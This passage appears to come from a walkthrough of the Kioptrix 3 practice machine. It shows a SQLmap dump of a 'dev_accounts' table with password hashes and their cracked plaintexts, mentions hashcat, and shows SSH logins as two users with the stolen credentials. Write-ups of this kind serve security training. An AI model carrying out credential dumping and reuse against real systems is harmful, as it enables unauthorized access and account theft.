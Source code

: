 ```bash
gallery

Table: dev_accounts
[2 entries]
+----+---------------------------------------------+------------+
| id | password                                    | username   |
+----+---------------------------------------------+------------+
| 1  | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   | dreg       |
| 2  | 5badcaf789d3d1d09794d8f021f40f0e (starwars) | loneferret |
+----+---------------------------------------------+------------+
```

Note: SQLmap has a built-in feature that cracks password hashes (which I chose to use when prompted), that's why these password hashes were already cracked and shown in plaintext. If I had chosen a different method and ended up with just the hashes, I would've used something like `hashcat` to crack the hashes anyway.

Both of these credentials worked when I `ssh`ed into the target's machine:

```bash
kali@kali:~$ ssh dreg@192.168.56.109
The authenticity of host '192.168.56.109 (192.168.56.109)' can not be established.
RSA key fingerprint is SHA256:NdsBnvaQieyTUKFzPjRpTVK6jDGM/xWwUi46IR/h1jU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.109' (RSA) to the list of known hosts.
dreg@192.168.56.109s password:
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
dreg@Kioptrix3:~$
dreg@Kioptrix3:~$ exit
logout
-rbash: /usr/bin/clear_console: restricted: cannot specify '/' in command names
Connection to 192.168.56.109 closed.
kali@kali:~$ ssh loneferret@192.168.56.109
loneferret@192.168.56.109s password:
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
Last login: Sat Apr 16 08:51:58 2011 from 192.168.1.106
loneferret@Kioptrix3:~$
```
